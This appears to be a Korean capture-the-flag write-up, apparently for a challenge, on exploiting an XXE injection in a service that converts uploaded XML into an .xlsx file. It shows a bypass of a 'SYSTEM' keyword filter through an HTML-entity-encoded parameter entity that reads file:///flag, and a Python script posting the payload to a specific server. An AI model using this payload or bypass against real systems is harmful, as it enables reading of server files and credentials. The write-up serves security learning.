      
유저가 전달한 XML 데이터를 파싱하여 결과 값을 .xlsx 파일에 담아 반환한다. 하지만, External Entity 삽입을 허용하고 있어 XXE Injection 취약점이 발생한다. `<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>`와 같은 공격 코드를 삽입하면, `xml_data.replace("SYSTEM", "system")`로 인해 실행이 되지 않아 이를 우회해야한다.    
            
```xml 
<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % a "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#34;&#32;&#62;" >
    %a;
]>
<members>
  <member>
    <name>&xxe;</name>
    <address>123 Main St</address>
    <company>Example Inc.</company>
    <job>Developer</job>
    <email>user@example.com</email>
    <username>user123</username>
  </member>
</members>
```    

`<!ENTITY xxe SYSTEM "file:///flag" >`를 HTML Entity로 인코딩하여 %a에 Entity를 선언하고, %a를 호출하여 xxe Entity가 포함되도록 해주면 우회가 가능하다. 다른 방법으로는 SYSTEM 대신 PUBLIC 키워드를 사용하면 이와 같이 우회할 수 있다.           
       
## Exploit Code 
```python
import requests

xml_payload = """<!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % a "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#34;&#32;&#62;" >
    %a;
]>
<members>
  <member>
    <name>&xxe;</name>
    <address>123 Main St</address>
    <company>Example Inc.</company>
    <job>Developer</job>
    <email>user@example.com</email>
    <username>user123</username>
  </member>
</members>
"""

files = {'file': ('exploit.xml', xml_payload, 'application/xml')}
response = requests.post('http://52.231.138.201:8580/download', files=files)

with open('members.xlsx', 'wb') as f:
    f.write(response.content)
```     
            